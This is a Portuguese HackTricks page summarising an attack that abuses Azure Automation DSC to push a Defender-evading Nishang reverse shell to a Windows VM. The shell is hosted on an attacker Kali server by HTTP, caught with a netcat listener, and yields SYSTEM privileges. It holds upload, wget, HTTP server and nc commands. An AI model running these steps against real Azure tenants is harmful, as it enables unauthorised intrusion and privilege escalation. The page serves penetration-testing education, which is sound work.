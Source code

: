 # Az - Configuração de Estado RCE

{% hint style="success" %}
Aprenda e pratique Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

**Verifique o post completo em: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Resumo da Preparação e Etapas da Infraestrutura do Servidor Remoto (C2)

#### Visão Geral
O processo envolve configurar uma infraestrutura de servidor remoto para hospedar um payload modificado `Invoke-PowerShellTcp.ps1` do Nishang, chamado `RevPS.ps1`, projetado para contornar o Windows Defender. O payload é servido a partir de uma máquina Kali Linux com IP `40.84.7.74` usando um servidor HTTP Python simples. A operação é executada por meio de várias etapas:

#### Etapa 1 — Criar Arquivos
- **Arquivos Necessários:** Dois scripts do PowerShell são necessários:
1. `reverse_shell_config.ps1`: Um arquivo de Configuração de Estado Desejado (DSC) que busca e executa o payload. Ele pode ser obtido em [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Um script para publicar a configuração na VM, disponível em [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalização:** Variáveis e parâmetros nesses arquivos devem ser adaptados ao ambiente específico do usuário, incluindo nomes de recursos, caminhos de arquivos e identificadores de servidor/payload.

#### Etapa 2 — Compactar Arquivo de Configuração
- O `reverse_shell_config.ps1` é comprimido em um arquivo `.zip`, tornando-o pronto para transferência para a Conta de Armazenamento do Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Passo 3 — Definir Contexto de Armazenamento & Fazer Upload
- O arquivo de configuração compactado é enviado para um contêiner de Armazenamento Azure predefinido, azure-pentest, usando o cmdlet Set-AzStorageBlobContent do Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Passo 4 — Preparar o Kali Box
- O servidor Kali faz o download do payload RevPS.ps1 de um repositório do GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- O script é editado para especificar o VM Windows alvo e a porta para o shell reverso.

#### Passo 5 — Publicar Arquivo de Configuração
- O arquivo de configuração é executado, resultando no script de shell reverso sendo implantado no local especificado no VM Windows.

#### Passo 6 — Hospedar Payload e Configurar Ouvinte
- Um SimpleHTTPServer em Python é iniciado para hospedar o payload, juntamente com um ouvinte Netcat para capturar conexões de entrada.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- A tarefa agendada executa o payload, alcançando privilégios de nível SYSTEM.

#### Conclusão

A execução bem-sucedida desse processo abre inúmeras possibilidades para ações adicionais, como extração de credenciais ou expansão do ataque para várias VMs. O guia incentiva a aprendizagem contínua e a criatividade no âmbito do Azure Automation DSC.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
